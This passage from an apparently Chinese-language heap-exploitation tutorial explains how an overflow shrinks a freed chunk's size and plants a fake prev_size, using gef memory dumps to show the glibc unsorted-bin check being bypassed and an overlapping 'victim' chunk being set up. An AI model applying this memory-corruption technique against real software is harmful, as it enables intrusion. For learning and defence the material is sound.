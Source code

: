 ```
 →   Chunk(addr=0x603030, size=0x110, flags=PREV_INUSE)
```

最关键的一步，通过溢出漏洞覆写 chunk b 的数据：
```
gef➤  x/42gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x0000000000000000	0x0000000000000000
0x603020:	0x0000000000000000	0x0000000000000100  <-- chunk b [be freed]
0x603030:	0x00007ffff7dd1b78	0x00007ffff7dd1b78      <-- fd, bk pointer
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000
0x6030f0:	0x0000000000000000	0x0000000000000000
0x603100:	0x0000000000000000	0x0000000000000000
0x603110:	0x0000000000000000	0x0000000000000000
0x603120:	0x0000000000000100	0x0000000000000000      <-- fake c.prev_size
0x603130:	0x0000000000000110	0x0000000000000090  <-- chunk c
0x603140:	0x0000000000000000	0x0000000000000000
gef➤  heap bins unsorted 
[ Unsorted Bin for arena 'main_arena' ]
[+] unsorted_bins[0]: fw=0x603020, bk=0x603020
 →   Chunk(addr=0x603030, size=0x100, flags=)
```
这时，根据我们上一篇文字中讲到的计算方法：
- `chunksize(P) == *((size_t*)(b-0x8)) & (~ 0x7) == 0x100`
- `prev_size (next_chunk(P)) == *(size_t*)(b-0x10 + 0x100) == 0x100`

可以成功绕过检查。另外 unsorted bin 中的 chunk 大小也变成了 0x100。

接下来随意分配两个 chunk，malloc 会从 unsorted bin 中划出合适大小的内存返回给用户：
```
gef➤  x/42gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x0000000000000000	0x0000000000000000
0x603020:	0x0000000000000000	0x0000000000000091  <-- chunk b1  <-- fake chunk b
0x603030:	0x4141414141414141	0x4141414141414141
0x603040:	0x4141414141414141	0x4141414141414141
0x603050:	0x4141414141414141	0x4141414141414141
0x603060:	0x4141414141414141	0x4141414141414141
0x603070:	0x4141414141414141	0x4141414141414141
0x603080:	0x4141414141414141	0x4141414141414141
0x603090:	0x4141414141414141	0x4141414141414141
0x6030a0:	0x4141414141414141	0x4141414141414141
0x6030b0:	0x0000000000000000	0x0000000000000051  <-- chunk b2  <-- 'victim' chunk
0x6030c0:	0x4141414141414141	0x4141414141414141
0x6030d0:	0x4141414141414141	0x4141414141414141
0x6030e0:	0x4141414141414141	0x4141414141414141
0x6030f0:	0x4141414141414141	0x4141414141414141
0x603100:	0x0000000000000000	0x0000000000000021  <-- unsorted bin
0x603110:	0x00007ffff7dd1b78	0x00007ffff7dd1b78      <-- fd, bk pointer
0x603120:	0x0000000000000020	0x0000000000000000      <-- fake c.prev_size
0x603130:	0x0000000000000110	0x0000000000000090  <-- chunk c
0x603140:	0x0000000000000000	0x0000000000000000
gef➤  heap bins unsorted 
[ Unsorted Bin for arena 'main_arena' ]
[+] unsorted_bins[0]: fw=0x603100, bk=0x603100
```